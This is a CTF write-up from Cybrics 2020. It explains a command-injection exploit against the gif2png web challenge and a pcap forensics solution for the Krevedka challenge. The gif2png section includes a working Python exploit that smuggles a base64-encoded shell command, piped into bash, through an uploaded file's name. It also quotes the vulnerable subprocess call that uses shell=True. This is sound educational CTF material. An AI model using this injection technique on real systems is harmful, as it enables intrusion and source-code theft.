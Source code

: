 ```yaml
---
layout: post
title: Cybrics CTF Writeup
date: 2020-07-25 01:00 +0700
modified: 2020-07-25 15:35:00 +07:00
tag:
  - ctf
  - writeup
comments: true
---
```

# Categories 

+  [Web](#web)
+  [Forensics](#forensics)

## Web

### gif2png

**Solved By:** cernec1999  
**Points:** 52  
**Flag:** cybrics{imagesaresocoolicandrawonthem}

##### Challenge

This challenge features an eccentric GIF to PNG converter web application. The challenge ships with a directory of the source code. The server is a Python3 Werkzeug application with a flag variable stored in the source code. We have to figure out how to leak the source code file on the server-side to get the flag.

##### Solution

Right away, we can see there is a command line injection vulnerability at ```main.py:73```. The line looks like this:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

The file.filename variable (which is sent via the client upon file upload) can be controlled by an attacker. An attacker can set this filename to be arbitrary values. However, there are a few constraints that the filename must have in order to be "valid".

1. The filename must have the extension .gif
2. The content type must be image/gif
3. The filename must pass a regex constraint

The first two constraints are easy to bypass as the attacker can arbitrarily set the filename and content type from the client. The third constraint is a tad harder, but using our trusty regex knowledge, we can form the payload.

The condition we need to pass looks like this.

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
```

Luckily, our payload can contain any alphanumeric characters and a few symbols which will make our life much easier. In our case, besides alphanumeric characters, we only need these three characters: ```'```, ```-```, and ```|```.

Using the unix pipe operator, we can run multiple commands. Normally, the pipe operator routes the standard out from a specific process to another process, but in our case, we will use it for our command injection.

Initially, I tried to make my payload send the main.py file to a remote server via curl (and Python3), but I could not get it to work. Perhaps they set up strange firewall rules. I then took the obvious route of simply moving the ```main.py``` file to the ```uploads/``` directory on the webserver.

Here is my completed solution. It even features encoding the payload into base64 so you can use many other symbols!

```python
#!/usr/bin/python3
import requests, base64

# Shellcode to execute
shellcode = "mkdir uploads/haxxxx && cp main.py uploads/haxxxx/main.py"

# b64 encoded shellcode
encoded = base64.b64encode(shellcode.encode("utf-8")).decode("utf-8")

# Exploit string
exp = f"\' | echo \'{encoded}\' | base64 -d  |  bash  | \'.gif"

# Upload file
files = {'file':(exp, open('FullColourGIF.gif', 'rb'), 'image/gif')}
r = requests.post("http://gif2png-cybrics2020.ctf.su/", files=files)
```

Then, we simply need to access http://gif2png-cybrics2020.ctf.su/uploads/haxxxx/main.py to get our flag.

## Forensics

### Krevedka

**Solved By:** cernec1999  
**Points:** 50  
**Flag:** cybrics{micropetalous}

##### Challenge

This challenge involves a large ```.pcapng``` file. Our task is to search through the HTTP requests and figure out which user "hacked" into another user's account.

The task says the victim user is ```caleches```.

##### Solution

1. First, we open the pcap file.
2. Then, we can do a simple binary search within to find the user ```caleches```.
3. We investigate the TCP stream of the hacked account to learn the attacker's user agent.
```
User-Agent: UCWEB/2.0 (Linux; U; Opera Mini/7.1.32052/30.3697; www1.smart.com.ph/; GT-S5360) U2/1.0.0 UCBrowser/9.8.0.534 Mobile
```
4. We search for that user agent in the packets.
5. We investigate the TCP stream of this user agent, and we find out that it's for the login of user ```micropetalous```.